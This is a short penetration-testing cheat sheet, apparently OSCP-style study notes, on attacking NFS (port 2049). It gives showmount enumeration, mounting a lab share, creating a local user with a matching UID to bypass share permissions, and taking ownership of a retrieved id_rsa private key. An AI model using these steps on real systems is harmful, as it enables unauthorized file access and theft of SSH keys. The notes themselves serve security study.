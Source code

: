 NFS Port 2049

#### Enumeration

````
showmount $IP
showmount -e $IP
````

##### Mounting

````
sudo mount -o [options] -t nfs ip_address:share directory_to_mount
mkdir temp 
mount -t nfs -o vers=3 10.11.1.72:/home temp -o nolock
````

##### new user with new permissions

````
sudo groupadd -g 1014 <group name>
sudo groupadd -g 1014 1014
sudo useradd -u 1014 -g 1014 <user>
sudo useradd -u 1014 -g 1014 test
sudo passwd <user>
sudo passwd test
````

##### Changing permissions

The user cannot be logged in or active
````
sudo usermod -aG 1014 root
````

##### Changing owners

````
-rw------- 1 root root 3381 Sep 24  2020 id_rsa
````
````
sudo chown kali id_rsa
````
````
-rw------- 1 kali root 3381 Sep 24  2020 id_rsa
````
